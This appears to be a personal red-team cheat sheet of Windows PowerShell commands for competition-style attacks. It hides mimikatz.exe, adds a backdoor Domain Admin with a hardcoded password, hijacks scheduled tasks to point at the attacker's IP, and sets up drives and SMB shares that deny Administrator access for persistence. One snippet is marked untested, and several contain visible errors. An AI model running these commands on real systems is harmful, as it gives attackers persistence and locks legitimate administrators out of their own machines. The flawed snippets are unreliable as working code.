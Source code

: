 # Red Windows

Website 
`Ctrl + Shift + R` - cache refresh pages to ensure last game does not misinform as to current context

Change the keyboard layout - check in scope if so force any new user to have a weird keyboard layout
```powershell
Set-WinUserLanguageList -Force 'en-US'
```

Hiding binaries
```powershll
attrib +h mimikatz.exe
```

Add a Domain Admin
```powershell
# Check the password requirements before!
dsadd user "CN=John,CN=Users,DC=object,DC=local" -samid John -pwd johnspassword123! -display "John" -pwdneverexpires yes -memberof "DC=Domain Admins,CN=Users,DC=object,DC=local"
```

Assimilate a schduledtask
```powershell
# Find task and its excution path to hijack
get-scheduledtask | findstr /v Disabled
$task = get-scheduledtask -taskname <name>
$task | fl
$task.Actions.Execute | fl
$content = Get-Content -Path 'C:\file'
$newContent = $content -replace '<adversary-ip>', '<your-ip>'
$newContent | Set-Content -Path 'C:\file'
```


I NEED TO TEST THIS:

You may want to create all the secondary drives or all the drives possible to block others from using any of the drives. 
```powershell
$persistenceUser = "User1"

for ($i=0; $i -lt 26; $i++) {
  $driveLetter = [char]($i + 65) + ":"
  if (!(Get-Volume | Where-Object DriveLetter -eq $driveLetter)) {
    $newDisk = New-VirtualDisk -DriveLetter $driveLetter -Size 25MB
    $acl = Get-Acl -Path $newDisk.DriveLetter
    $persistenceUserRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $persistenceUserAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule($persistenceUser, $persistenceUserRights, "Allow")
    $acl.SetAccessRule($persistenceUserAccessRule)
    $otherUsersRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $otherUsersAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("Administrator", $otherUsersRights, "Deny")
    $acl.SetAccessRule($otherUsersAccessRule)
    Set-Acl -Path $newDisk.DriveLetter -AclObject $acl
  }
}

```

Create a file share - the longer the path for copy and paste and shell nightmares
```powershell
#

# -ConcurrentUserLimit to prevent hacky breaking into destroy the share 

New-SmbShare -Name MyFileShare -Path $goodPath -FullAccess $persistenceUser -EncryptData $True -ConcurrentUserLimit 1 -ContinuouslyAvailable -Temporary
# You can set up an inital connection to a remote host with output from
#  New-CimSession Get-CimSession
-Cim-Session 


# Add to known adversary accounts -NoAccess Administrator

$Parameters = @{
    Name = '$Name'
    Path = $goodPath
    FullAccess = 'Contoso\Administrator', 'Contoso\Contoso-HV1$'
    EncryptData = $True
    Temporary = $True
    ContinuouslyAvailable = $True
    NoAccess = 'Administrator' # Prevent access administrator - create persistence user to access
}
New-SmbShare @Parameters
```